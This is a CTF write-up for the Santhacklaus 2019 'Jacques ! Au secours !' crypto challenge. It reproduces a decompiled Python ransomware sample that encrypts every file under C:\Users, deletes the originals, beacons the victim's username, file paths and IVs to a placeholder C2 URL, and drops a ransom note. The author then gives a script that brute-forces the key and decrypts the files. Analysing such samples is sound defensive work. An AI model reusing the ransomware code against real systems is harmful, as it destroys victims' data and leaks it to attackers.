



# Santhacklaus CTF 2019 - Jacques ! Au secours !

This challenge is a crypto challenge from Santhacklaus CTF 2019.
You can visit the CTF platform [here](https://ctf.santhacklaus.xyz).

## Context

> One of our VIP clients, who wishes to remain anonymous, has apparently been hacked and all their important documents are now corrupted.
> Can you help us recover the files? We found a strange piece of software that might have caused all of this.
> MD5 of the file : ccaab91b06fc9a77f3b98d2b9164df8e
> [chall_files.zip](files/chall.zip)


## Exploration

Once we have extracted the zip file, we have a folder of encrypted pictures with a sweet note from our hacker:
> We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com



Since our VIP client seems unwilling to pay this ransom, we should probably find a way to decrypt those vacation pictures...

If we look closer at the files at our disposal, we notice a [virus.cpython-37.pyc](files/virus.cpython-37.pyc) python compiled file that we should probably try to decompile in order to find out how our hacker encrypted our client's files.

I followed [this tutorial](https://gauravssnl.wordpress.com/2017/07/01/how-to-decompile-compiled-pyc-python-files-to-findsee-original-source-code/) and used `uncompyle6 -o . virus.cpython-37.pyc` to get the decompiled [virus.cpython-37.py](files/virus.cpython-37.py) file.



## Analysis

So we end up with the following python script:
```python
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, os, getpass, requests
TARGET_DIR = 'C:\\Users'
C2_URL = 'https://c2.virus.com/'
TARGETS = [b'Scott Farquhar', b'Lei Jun', b'Reid Hoffman', b'Zhou Qunfei', b'Jeff Bezos', b'Shiv Nadar', b'Simon Xie', b'Ma Huateng', b'Ralph Dommermuth', b'Barry Lam', b'Nathan Blecharczyk', b'Judy Faulkner', b'William Ding', b'Scott Cook', b'Gordon Moore', b'Marc Benioff', b'Michael Dell', b'Yusaku Maezawa', b'Yuri Milner', b'Bobby Murphy', b'Larry Page', b'Henry Samueli', b'Jack Ma', b'Jen-Hsun Huang', b'Jay Y. Lee', b'Joseph Tsai', b'Dietmar Hopp', b'Henry Nicholas, III.', b'Dustin Moskovitz', b'Mike Cannon-Brookes', b'Robert Miller', b'Bill Gates', b'Garrett Camp', b'Lin Xiucheng', b'Gil Shwed', b'Sergey Brin', b'Rishi Shah', b'Denise Coates', b'Zhang Fan', b'Michael Moritz', b'Robin Li', b'Andreas von Bechtolsheim', b'Brian Acton', b'Sean Parker', b'John Doerr', b'David Cheriton', b'Brian Chesky', b'Wang Laisheng', b'Jan Koum', b'Jack Sheerack', b'Terry Gou', b'Adam Neumann', b'James Goodnight', b'Larry Ellison', b'Wang Laichun', b'Masayoshi Son', b'Min Kao', b'Hiroshi Mikitani', b'Lee Kun-Hee', b'David Sun', b'Mark Scheinberg', b'Yeung Kin-man', b'John Tu', b'Teddy Sagi', b'Frank Wang', b'Robert Pera', b'Eric Schmidt', b'Wang Xing', b'Evan Spiegel', b'Travis Kalanick', b'Steve Ballmer', b'Mark Zuckerberg', b'Jason Chang', b'Lam Wai Ying', b'Romesh T. Wadhwani', b'Liu Qiangdong', b'Jim Breyer', b'Zhang Zhidong', b'Pierre Omidyar', b'Elon Musk', b'David Filo', b'Joe Gebbia', b'Jiang Bin', b'Pan Zhengmin', b'Douglas Leone', b'Hasso Plattner', b'Paul Allen', b'Meg Whitman', b'Azim Premji', b'Fu Liquan', b'Jeff Rothschild', b'John Sall', b'Kim Jung-Ju', b'David Duffield', b'Gabe Newell', b'Scott Lin', b'Eduardo Saverin', b'Jeffrey Skoll', b'Thomas Siebel', b'Kwon Hyuk-Bin']

def get_username():
    return getpass.getuser().encode()


def xorbytes(a, b):
    assert len(a) == len(b)
    res = b''
    for c, d in zip(a, b):
        res += bytes([c ^ d])

    return res


def lock_file(path):
    username = get_username()
    hsh = hashlib.new('md5')
    hsh.update(username)
    key = hsh.digest()
    cip = AES.new(key, 1)
    iv = get_random_bytes(16)
    params = (('target', username), ('path', path), ('iv', iv))
    requests.get(C2_URL, params=params)
    with open(path, 'rb') as fi:
        with open(path + '.hacked', 'wb') as fo:
            block = fi.read(16)
            while block:
                while len(block) < 16:
                    block += bytes([0])

                cipherblock = cip.encrypt(xorbytes(block, iv))
                iv = cipherblock
                fo.write(cipherblock)
                block = fi.read(16)

    os.unlink(path)


def lock_files():
    username = get_username()
    print(username)
    if username in TARGETS:
        for directory, _, filenames in os.walk(TARGET_DIR):
            for filename in filenames:
                if filename.endswith('.hacked'):
                    continue
                fullpath = os.path.join(directory, filename)
                print('Encrypting', fullpath)
                lock_file(fullpath)

        with open(os.path.join(TARGET_DIR, 'READ_THIS.txt'), 'wb') as fo:
            fo.write(b'We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com\n')


if __name__ == '__main__':
    lock_files()
```
As you can see, the script checks if the system user is in the **TARGETS** list and if so, it proceeds to encrypt all the files in the target's **C:\\User** directory using the **lock_file** function.

So the **lock_file** function is the one we should pay attention to. This function uses the MD5 digest of the target's username as the AES key and it divides the file into blocks of 16 bytes before encrypting them. It adds null bytes at the end of the last block until it has 16 bytes.

However, if we look closer at the way the AES cipher is created, we notice that the IV's value is **1** (since the cipher is created using `AES.new(key, 1)`): the randomly generated variable **iv** is not used as the IV of our cipher but rather as a key to xor the blocks to. After encrypting one block, it uses the newly encrypted cipherblock to xor the next block.

Since we know the value of the real IV, we should be able to reverse the **lock_file** function by simply xoring back the different blocks and decrypting them starting from the last block with the **AES.AESCipher.decrypt** function. Since we don't know the 16 random bytes that were xored with the first block, we can open the hexa of a valid JPG and try to use its 16 first bytes as our first block.

The only real problem here is that we need to bruteforce the target's username since our client wanted to remain anonymous but it should not be too difficult...

## Decrypt the files

Here is the script I used to decrypt the JPG files:
```python
from PIL import Image
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, os, getpass, requests, re

TARGETS = ['Scott Farquhar', 'Lei Jun', 'Reid Hoffman', 'Zhou Qunfei', 'Jeff Bezos', 'Shiv Nadar', 'Simon Xie', 'Ma Huateng', 'Ralph Dommermuth', 'Barry Lam', 'Nathan Blecharczyk', 'Judy Faulkner', 'William Ding', 'Scott Cook', 'Gordon Moore', 'Marc Benioff', 'Michael Dell', 'Yusaku Maezawa', 'Yuri Milner', 'Bobby Murphy', 'Larry Page', 'Henry Samueli', 'Jack Ma', 'Jen-Hsun Huang', 'Jay Y. Lee', 'Joseph Tsai', 'Dietmar Hopp', 'Henry Nicholas, III.', 'Dustin Moskovitz', 'Mike Cannon-Brookes', 'Robert Miller', 'Bill Gates', 'Garrett Camp', 'Lin Xiucheng', 'Gil Shwed', 'Sergey Brin', 'Rishi Shah', 'Denise Coates', 'Zhang Fan', 'Michael Moritz', 'Robin Li', 'Andreas von Bechtolsheim', 'Brian Acton', 'Sean Parker', 'John Doerr', 'David Cheriton', 'Brian Chesky', 'Wang Laisheng', 'Jan Koum', 'Jack Sheerack', 'Terry Gou', 'Adam Neumann', 'James Goodnight', 'Larry Ellison', 'Wang Laichun', 'Masayoshi Son', 'Min Kao', 'Hiroshi Mikitani', 'Lee Kun-Hee', 'David Sun', 'Mark Scheinberg', 'Yeung Kin-man', 'John Tu', 'Teddy Sagi', 'Frank Wang', 'Robert Pera', 'Eric Schmidt', 'Wang Xing', 'Evan Spiegel', 'Travis Kalanick', 'Steve Ballmer', 'Mark Zuckerberg', 'Jason Chang', 'Lam Wai Ying', 'Romesh T. Wadhwani', 'Liu Qiangdong', 'Jim Breyer', 'Zhang Zhidong', 'Pierre Omidyar', 'Elon Musk', 'David Filo', 'Joe Gebbia', 'Jiang Bin', 'Pan Zhengmin', 'Douglas Leone', 'Hasso Plattner', 'Paul Allen', 'Meg Whitman', 'Azim Premji', 'Fu Liquan', 'Jeff Rothschild', 'John Sall', 'Kim Jung-Ju', 'David Duffield', 'Gabe Newell', 'Scott Lin', 'Eduardo Saverin', 'Jeffrey Skoll', 'Thomas Siebel', 'Kwon Hyuk-Bin']


def xorbytes(a, b):
    assert len(a) == len(b)
    res = b''
    for c, d in zip(a, b):
        res += bytes([c ^ d])
    return res


def unlock_file(path):
    for username in TARGETS:
        hsh = hashlib.new('md5')
        hsh.update(username.encode('utf-8'))
        key = hsh.digest()
        cip = AES.new(key, 1)
        with open(path, 'rb') as fi:
            foname = username + '_' + re.findall(r'(DCIM.*jpg).hacked', path)[0]
            with open(foname, 'wb') as fo:
                content = b''
                cipher = fi.read()
                if len(cipher) % 16 != 0:
                    cipher += bytes([0])
                i = -16
                while -i != len(cipher) - 16:
                    cipherblock = cipher[i:i+16]
                    if i == -16:
                        cipherblock = cipher[i:]
                    iv = cipher[i-16:i]
                    block = xorbytes(cip.decrypt(cipherblock), iv)
                    content = block + content
                    i -= 16
                content = b'\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01' + content
                fo.write(content)
                try:
                    im = Image.open(foname)
                    im.verify()
                    print(f'{foname.split("_")[1]} decrypted with user {foname.split("_")[0]} !')
                except (IOError, SyntaxError):
                    os.remove(foname)


def unlock_files(directory):
    for directory, _, filenames in os.walk(directory):
        for filename in filenames:
            if filename.endswith('.jpg.hacked'):
                print(f'Trying to decrypt {re.findall(r"(DCIM.*jpg).hacked", filename)[0]}...')
                unlock_file(os.path.join(directory, filename))


if __name__ == '__main__':
    unlock_files('./vacation pictures')
```
Executing the script in the **chall_files** directory allows us to recover the four JPG files:



So we now know our (not so) anonymous client's name and we have decrypted his vacation pictures ! :D


The flag is on one of these pictures:


